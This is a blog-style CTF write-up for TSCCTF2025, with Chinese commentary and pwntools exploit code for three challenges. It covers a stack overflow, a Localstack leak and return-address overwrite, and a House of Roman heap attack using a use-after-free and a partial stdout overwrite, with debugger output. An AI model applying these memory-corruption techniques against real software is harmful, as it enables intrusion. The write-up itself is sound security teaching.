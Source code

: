 # Tscctf2025


# TSCCTF2025

## gamble_bad_bad

```python
rv = b&#39;\xa1\x8d\xef\xbc\x9a&#39;

payload = b&#39;a&#39; * 0x14 &#43; b&#39;\x37\x37\x37\x00&#39;
pause()
sla(rv, payload)
```

## Localstack

```python
menu = b&#39;&gt;&gt; &#39;

def push(value):
    sla(menu, f&#39;push {str(value)}&#39;.encode())
    print(f&#39;push {(str(value))}&#39;)


def pop():
    sla(menu, b&#39;pop&#39;)


def show():
    sla(menu, b&#39;show&#39;)


def ex1t():
    sla(menu, b&#39;exit&#39;)


rv_list = []
rv = 0

for i in range(9):
    pop()
    ru(b&#39;Popped &#39;)
    rv = int(ru(b&#39; &#39;)[:-1])
    print(hex(rv))
    if rv &gt;= 0:
        rv_list.append(rv)
    else:
        rv_list.append((rv &#43; 0xffffffffffffffff &#43; 1) &amp; 0xffffffffffffffff)

show()
libc_base = rv - 0x7f410
lg(&#34;libc_base&#34;)
for i in range(1, len(rv_list))[::-1]:
    print(i)
    # print(hex(rv_list[i]))
    push(rv_list[i])

push(29)
push(30)

push(libc_base)

ia()
```

pop泄露地址，push写地址，国外比赛是不是都喜欢出覆盖计数指针的题，上次才见过一个只能一个字节一个字节写的题也是打计数指针，算一下rsp到rbp的偏移就行

这样可以写返回地址了，然后看了眼有后门函数，那就不用泄露libc了，泄露出pie_base然后写print_flag&#43;pie_base即可

















## noview

有uaf，没有show函数，肯定是打roman，为了方便，我patch了2.23的，复习一下

house of roman的关键还是在于这个既在fastbin里，又在unsortedbin里的bin

在有uaf或者off by one的情况下都可以使用下面这种方法：

```python
add(0, 0x60, )  # 000
edit(0, p64(0) &#43; p64(0x71))
add(1, 0x60)        # 070
edit(1, b&#39;ffff&#39;)
add(2, 0x60)  # 0f0
edit(2, p64(0) * 3 &#43; p64(0x51))
delete(0)
delete(1)  # delete 070
edit(1, p8(0x10))
add(3, 0x60)  # add 070
edit(3, b&#39;gggg&#39;)
add(4, 0x60)  # add 010
edit(4, p64(0) * 0xb &#43; p64(0x71))
delete(3)
edit(4, p64(0) * 0xb &#43; p64(0x91))
delete(3)
```

关键就在于使用off-by-one或者uaf，将fastbin的大小换成unsortedbin的，然后重新free一次

![image-20250125184607790](D:\ctf\web\hugo\blog\content\posts\images\image-20250125184607790.png)

找到可以作为size的地址`0x7efd01c1b73d`，然后将其低两位写入一个unsortedbin中的main_arena&#43;96指针中

```gdb
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x56206343b2b0
Size: 0x810 (with flag bits: 0x811)
fd: 0x7f910fe1b73d
bk: 0x7f910fe1ace0

Allocated chunk
Addr: 0x56206343bac0
Size: 0x20 (with flag bits: 0x20)

Top chunk | PREV_INUSE
Addr: 0x56206343bae0
Size: 0x20520 (with flag bits: 0x20521)

pwndbg&gt; tele 0x56206343b2b0
00:0000│  0x56206343b2b0 ◂— 0x0
01:0008│  0x56206343b2b8 ◂— 0x811
02:0010│  0x56206343b2c0 —▸ 0x7f910fe1b73d (_IO_2_1_stderr_&#43;157) ◂— 0x910fe1a8a0000000
03:0018│  0x56206343b2c8 —▸ 0x7f910fe1ace0 (main_arena&#43;96) —▸ 0x56206343bae0 ◂— 0x0
04:0020│  0x56206343b2d0 ◂— 0x0
... ↓     3 skipped
```

分配两次，第二次分配就可以覆盖`_IO_2_1_stdout_`的`_IO_write_base`低位为`\x00`


---

> 作者:   
> URL: http://localhost:1313/posts/814a8c6/  

